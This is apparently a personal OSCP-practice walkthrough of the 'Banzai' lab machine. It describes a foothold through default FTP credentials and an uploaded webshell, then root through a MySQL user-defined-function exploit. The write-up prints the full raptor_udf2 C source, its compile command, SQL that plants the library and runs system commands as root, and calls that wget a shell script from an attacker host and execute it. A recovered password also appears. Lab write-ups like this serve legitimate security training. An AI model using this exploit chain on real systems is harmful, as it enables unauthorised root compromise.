 # Banzai Helped-through
Name: Banzai
Date:  30/10/2022
Difficulty:  Intermediate
Goals:  OSCP Prep
Learnt: 
- Web is a pyschological rabbit hole for me.
- Try default creds on all ftp 
- port numbers because WAF exist!
- mysql has a shell run system commands from mysql:  `\!` 


## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)

SSL recently has been a massive headache in alot of my venture in hoping to improve.
![](diffiehellmanvuln.png)  

I downloaded the site, but there is no contact form...

![](noregnacontactform.png)

Found the above very disconcerting as it would hosted elsewhere. Or because its actually the same directory as ftp. I did loads of recon and exploit hunting, but at the end of the day Web is a pyschological rabbit hole for me on top of potential rabbithole.

## Exploit && Foothold

`admin:admin` on ftp... added this to a list things I am an idiot about. This was a massive ouch moment. I am sure there is a Alhazred quote in the back of my mind *"Sometime it just the ftp..."*. 

![](banzaiftpadmin.png)
![]()
Becuase you are `admin` you can upload a shell and due to it also being the web directory use a webshell. 
![](uploadwebshell.png)

It needs to be port 21, because of [[waf-detect-http___192.168.141.56_8295_-apachegeneric]]
![](revshell.png)

## PrivEsc

I decide to close the walkthrough for the next thirty miniutes. Had more trouble connecting back ...

admin user!

![](passinconfigphp.png)

`EscalateRaftHubris123`

/var/log/mail.log - denied

Why is there an mysql and postgres, and the mysql 
![](3306.png)

Root should never run any service!
![](rootprivmysqlproc.png)
The mysql credentials above then make more sense.

![](raptordotcusage.png)

The first step makes and object file.

```
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc <,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

This was a nice reminder why I like clang.
![](compilation.png)

```
#include <stdio.h>
#include <stdlib.h>
 
enum Item_result {STRING_RESULT, REAL_RESULT, INT_RESULT, ROW_RESULT};
 
typedef struct st_udf_args {
        unsigned int arg_count; // number of arguments
        enum Item_result *arg_type; // pointer to item_result
        char **args; // pointer to arguments
        unsigned long *lengths; // length of string args
        char *maybe_null; // 1 for maybe_null args
} UDF_ARGS;
 
typedef struct st_udf_init {
        char maybe_null; // 1 if func can return NULL
        unsigned int decimals; // for real functions
        unsigned long max_length; // for string functions
        char *ptr; // free ptr for func data
        char const_item; // 0 if result is constant
} UDF_INIT;
 
int do_system(UDF_INIT *initid, UDF_ARGS *args, char *is_null, char *error) {
        if (args->arg_count != 1) {
                return(0);
        }
        system(args->args[0]);
        return(0);
}
 
char do_system_init(UDF_INIT *initid, UDF_ARGS *args, char *message) {
        return(0);
}
```

UDF - User defined functions.

1. Discover where the installation of MySQL stores its UDFs

```sql
show variables like 'plugin_dir';
show variables like 'secure_file_priv';
```

![](sqlinrecon.png)

```sql
use mysql;
create table foo(line blob);
-- Load the shared library file into the table
insert into foo values(load_file('/var/www/raptor_udf2.so'));
-- Dump our table into the live shared library file that mysql is using
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
-- make a function that returns the 0 to shared libary name
create function do_system returns integer soname 'raptor_udf2.so';
-- it because sets our id to 0, therefore root, wow
select do_system('id > /var/www/out; chown www-data.www-data /var/www/out');
\! sh -- run sh from mysql
cat /var/www/out 
```

We run commands as root so we need a another revserve shell
![](notrootyet.png)

I instead of facing the hell hole that is compatiblity and compilation i just transfered a bash  shell.  One day I will finish what is currently named ninjashell to end this nightmare.

```sql
select do_system('wget http://192.168.49.113:8295/shell.sh -O /var/www/shell.sh');
select do_system('chmod 777 /var/www/shell.sh');
select do_system('/var/www/shell.sh');
```

![](whataroot.png)

What a machine. Wow! I learnt alot.